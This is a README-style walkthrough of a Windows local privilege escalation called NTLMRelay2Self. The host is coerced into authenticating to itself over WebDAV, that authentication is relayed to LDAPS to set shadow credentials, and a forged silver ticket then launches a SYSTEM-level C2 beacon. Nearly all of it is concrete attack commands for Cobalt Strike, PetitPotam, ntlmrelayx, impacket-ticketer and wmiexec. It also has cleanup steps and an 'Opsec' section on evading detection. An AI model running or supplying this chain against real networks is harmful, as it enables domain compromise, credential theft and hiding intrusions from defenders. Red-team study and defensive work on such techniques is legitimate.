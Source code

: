 # NTLMRelay2Self

## NTLMRelay2Self over HTTP (Webdav)
 
<b>An other No-Fix LPE</b>

Just a walkthrough of how to escalate privileges locally by forcing the system you landed initial access on to reflectively authenticate over HTTP to itself and forward the received connection to an HTTP listener (ntlmrelayx) configured to relay to DC servers over LDAP/LDAPs for either setting shadow credentials or configuring RBCD.

This would result in a valid kerberos TGT ticket that can be used to obtain a TGS for a service (HOST/CIFS) using `S4U2Self` by impersonating a user with local administrator access to the host (domain admin ..etc), or alternatively, it's also possible to retrieve the machine account's NTLM hash with getnthash.py and then create a silver ticket.

Lastly, use the TGS or silver ticket to spawn a system (session 0) process, this can be achieved by simply using `WMIExec` or alternatively using `SCMUACBypass` script to rely on kerberos for auth to interact with the SCM and create a service in the context of SYSTEM.

The steps below lists all the actions taken to escalate privileges locally on an up to date Windows 10 (1909) system, the cobalt strike beacon (or any other c2 agent) is running in the context of an unprivileged user `LAB\User1`. 


<b>Domain:</b> lab.local <br>
<b>DC IP:</b> 10.2.10.1 <br>
<b>Win10 IP:</b> 10.10.177.112 <br>
<b>Linux machine CS client running on:</b> 172.16.1.5 <br>

### <u>Steps:</u>


1. Start the WebClient service from an unprivileged context: <br>
    `inline-execute StartWebClientSvc.x64.o`
    `sc_query webclient`

2. On your cobalt strike beacon, setup a socks proxy and reverse port forward: <br>
`socks 5009`<br>
`rportfwd_local 80 172.16.1.5 80`

3. Check if `msDS-KeyCredentialLink` attribute is Not already set on the current `WIN10` machine account. <br>
`ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`

4. Setup the Listener on Linux system CS client is running on: <br>
`proxychains python3 ntlmrelayx.py -domain lab.local -t ldaps://10.2.10.1 --shadow-credentials --shadow-target WIN10\$`

5. Coerce the `WIN10` system to authenticate to itself to port 80 (HTTP), this requires the <u>WebClient</u> service and the <u>Printer Spooler</u> service to be running on `WIN10`::<br>
`proxychains python3 printerbug.py "lab.local/User1:Passw0rd01@10.10.177.112" wind10@80/print` <br> Alternatively, you can use PetitPotam: <br>
`python3 PetitPotam.py -u User1 -p Passw0rd01 -d lab.local WIN10@80/print 10.10.177.112`

7. If the previous two (2) steps were executed with no error, you should get a message stating shadow credentials were successfully set on the WIN10$ machine account, you can quiclky check for that using: <br>
`ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`

<br><b>The remaining steps are standard PKINIT actions to get a TGT for WIN10$, then recover the NT Hash and lastly create a silver ticket for the `HOST\WIN10` SPN: </b><br><br>

8. Request a TGT for WIN10$:<br>
 `proxychains python3 gettgtpkinit.py -cert-pfx WIN10.pfx -pfx-pass 8kX4grjUrY8gvzjrphl5 lab.local/WIN10$ WIN10.ccache`

9. `export KRB5CCNAME=/PATH_TO/WIN10.ccache`

10. Get the NT Hash:<br>
 `proxychains python3 getnthash.py -key 397eef25429f6b7249a11dfaa874df5c92bf44974b1bb962591937d656f0e827 -dc-ip 10.2.10.1 lab.local/WIN10$`

11. Create a silver ticket for the HOST SPN:<br>
 `impacket-ticketer -domain-sid S-1-5-21-81107902-1099128984-1836738286 -domain lab.local -spn HOST/WIN10.LAB.LOCAL -nthash db6484c89c273e269a23b1bdc53f7cdf -user-id 1155 Administrator`

12. Export the silver ticket for kerberos auth:<br>
 `export KRB5CCNAME=/PATH_TO/Administrator.ccache`

13. Get a SYSTEM beacon using `Wmiexec`:<br>
`proxychains4 python3 wmiexec.py -nooutput -silentcommand -dc-ip 10.2.10.1 -k -no-pass lab.local/Administrator@WIN10.LAB.LOCAL 'C:\Users\User1\Desktop\Files\mcbuilder.exe'` <br>
Or alternatively use `SCMUACBypass` script from James (@tiraniddo)


### <u>Cleanup:</u>

1. Export the TGT created in step 8:<br>
 `export KRB5CCNAME=/PATH_TO/WIN10.ccache`

2. Get the public key set on `ms-dsKeyCredentialLink` GUID:<br>
 `proxychains python3 pywhisker.py -u "WIN10$" -d "lab.local" --dc-ip 10.2.10.1 -k --no-pass --target 'WIN10$' --action "list" -vv`

3. Remove the public key set:<br>
 `proxychains python3 pywhisker.py -u "WIN10$" -d "lab.local" --dc-ip 10.2.10.1 -k --no-pass --target 'WIN10$' --action "remove" -D 97dc9d92-6d23-6031-7e1d-b5a13e305c8b`

4. Check if the public key is removed:<br>
 `ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`


### <u>Notes:</u>

* Shadow Credentials requires LDAP signing and channel binding to be disabled, you can use `LDAPRelayScan` to confirm that.
* Machine accounts are allowed to change their own LDAP attributes (Not applicable for user accounts), however keep in mind that this will only work in case if the `ms-DSKeyCredentialLink` attribute does not exist for the machine account we want to LPE on.
* LDAP Signing and Channel Binding must be disabled on the DC (typical configuration for many DC deployments)
* When Testing in a HomeLab, make sure you've:
    * Windows Server 2016 Functional Level for AD
    * A digital certificate for Server Authentication on DC.
    * Disable Windows Firewall on the Win10 system, this would not be a road block when dealing with real world organizations.

### <u>Opsec !!:</u>

- Using Ticketer for forging a silver ticket from the NT hash can be detected (ATA) by monitoring for RC4 encrypted Kerberos ticket, most modern MS environments rely on AES Kerberos encryption instead. an alternative would be to use S4U2Self to obtain a TGS ticket check `gets4uticket` from Dirk-jan.

- SCMUACBypass creates a service, can be customized to update an existing service and point it to your beacon payload instead of `cmd.exe`, `Wmiexec` doesn't create any services, that does not mean that Wmiexec with `-nooutput` and `-silentcommand` have no detections. just an opsec-safe alternative with a minimal footprint, i could be wrong though, who knows. 

- Shadow Credentials changes the `ms-DsKeyCredentialLink` only, on the other hand RBCD requires the `MachineQuota` to be set to 10 for default domain users (not always the case), plus a computer object will need to be created or have control over an existing AD joined system with an SPN set (required for delegation), then reflect it in the `AllowedToActOnBehalfOfOtherIdentity` LDAP attribute.



### <u>Refs: </u>
* `LdapRelayScan` https://github.com/zyn3rgy/LdapRelayScan
* `SCMBypassUAC` https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82
* `gets4uticket` https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py

### <u>Credits: </u>
Based on the research and tools/PoCs created by:
* @tifkin_
* @tiraniddo
* @_dirkjan
* @harmj0y
